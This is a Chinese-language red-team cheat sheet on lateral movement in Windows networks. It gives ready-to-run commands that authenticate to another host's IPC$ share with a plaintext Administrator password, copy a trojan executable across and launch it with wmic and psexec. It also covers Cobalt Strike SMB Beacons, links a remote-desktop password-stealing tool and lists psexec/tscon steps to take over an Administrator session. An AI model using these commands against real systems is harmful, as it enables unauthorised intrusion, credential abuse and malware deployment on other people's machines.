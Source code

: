 ## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网
 ## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

## 0x03 横向移动方法4_票据攻击

## 0x04 横向移动方法5_远控攻击

  https://github.com/wafinfo/Sunflower_get_Password
  
  
## 0x05 其他横向技巧

  Windows Server 2012及以上不提取密码登录Administrator桌面
  
  2012及高版本想要得到密码，只能通过修改注册表，然后让管理员重新登录主机才能得到密码，一般服务器重新进行登录时候很少。我们可以通过一些技巧得到Administrator权限，
  
  拿到shell后，whoami是system权限，可以添加用户后，上隧道把远程桌面代理出来，此时的权限仍然是system权限
  
  此时想要得到Administrator权限步骤如下：
  
  1.psexec启动一个system权限的cmd  命令：psexec.exe -s -i cmd.exe
  
  
  
  2.query user
  
  
  
  3. 查看administrator会话id
 
  
  
  4.tscon 1 切换会话id为Administrator权限
  
  
  
  
  


